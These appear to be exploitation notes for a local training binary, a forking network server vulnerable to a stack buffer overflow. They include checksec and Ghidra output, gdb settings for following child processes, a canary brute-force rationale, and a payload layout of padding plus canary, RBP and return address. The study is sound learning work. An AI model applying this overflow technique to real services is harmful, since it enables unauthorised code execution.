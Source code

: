 # Server Fork with recv() - vuln1

fork without execve() child process = canary does not change </br>
recv() = no null terminator '\x00' which makes canary bruteforce possible
```
gef➤  checksec
[+] checksec for 'vuln1'
Canary                        : Yes →  value: 0x4635cf1eaee08a00
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```
fork child process = canary does not change
recv() = no null terminator '\x00' which makes canary bruteforce possible

```
# nc 127.0.0.1 1337
Please enter the message you want to send to admin:
aaaaaaaaaaaaaaaaaaaaabbccc
Done.
```
'vuln1' uses libc.so.6 = libc leak, since the program returns after sending input
stripped = no symbol table, so no 'b main', use starti then set break point with ghidra reference
```
# file vuln1 
vuln1: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter 
/lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=cc3b330cabc203d0d813e3114f1515b044a1fd4f,
 stripped

# ldd vuln1 
	linux-vdso.so.1 (0x00007ffc2df84000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd437426000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fd437603000)

```

ghidra: break at 001015cc right after recv() or 001015e1 after stack canary check
```
001015c7 e8 64 fa        CALL       recv                                             ssize_t recv(int __fd, void * __
         ff ff
001015cc 90              NOP
001015cd 48 8b 55 f8     MOV        RDX,qword ptr [RBP + local_10]
001015d1 64 48 33        XOR        RDX,qword ptr FS:[0x28]
         14 25 28 
         00 00 00
001015da 74 05           JZ         LAB_001015e1
001015dc e8 8f fa        CALL       __stack_chk_fail                                 undefined __stack_chk_fail()
         ff ff
                     -- Flow Override: CALL_RETURN (CALL_TERMINATOR)
                     LAB_001015e1                                    XREF[1]:     001015da(j)  
001015e1 c9              LEAVE
001015e2 c3              RET
```
starti, then check canary
Need to set detach-on-fork, and follow-fork-mode in order to debug child process


```
gef >

starti
set detach-on-fork off
set follow-fork-mode child
b *0x00005555555555e2
canary
c
```
[https://vagmour.eu/persistence-1/](https://vagmour.eu/persistence-1/)
[]()
[]()

Send Payload (python3):
```
payload = b'a' * 0x34 + b'cccc' 
netcat( '127.0.0.1', 1337 , payload , i  , []  )
```

After sending payload:  (  Canary = 0x4769534786267b00 ) </br>
RBP =  0x00007fffffffe0e0
```
$rax   : 0x39              
$rbx   : 0x0               
$rcx   : 0x00007ffff7ef444d  →  0x6b77fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffe0b8  →  0x0000555555555562  →   mov eax, DWORD PTR [rbp-0x14]
$rbp   : 0x00007fffffffe0e0  →  0x00007fffffffe140  →  0x00005555555555f0  →   push r15
$rsi   : 0x00007fffffffe070  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$rdi   : 0x4               
$rip   : 0x00005555555555e2  →   ret 
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x246             
$r12   : 0x0000555555555180  →   xor ebp, ebp
$r13   : 0x00007fffffffe220  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 

gef➤  x/20gx $rsi
0x7fffffffe070:	0x6161616161616161	0x6161616161616161
0x7fffffffe080:	0x6161616161616161	0x6161616161616161
0x7fffffffe090:	0x6161616161616161	0x6161616161616161
0x7fffffffe0a0:	0x6363636361616161	0x4769534786267b00
0x7fffffffe0b0:	0x00007fffffffe0e0	0x0000555555555562
0x7fffffffe0c0:	0x0000000000000002	0x0000000400000000
0x7fffffffe0d0:	0x0000000000000000	0x4769534786267b00
0x7fffffffe0e0:	0x00007fffffffe140	0x00005555555554cf
0x7fffffffe0f0:	0x00007fffffffe228	0x00000001f7e9d745
0x7fffffffe100:	0x0000000000000000	0x0000053900000010

```
![rsi](stack1.JPG "rsi")

so payload = 

```
payload = b'a' * 0x34 + b'cccc' + CANARY + RBP + RETURN
```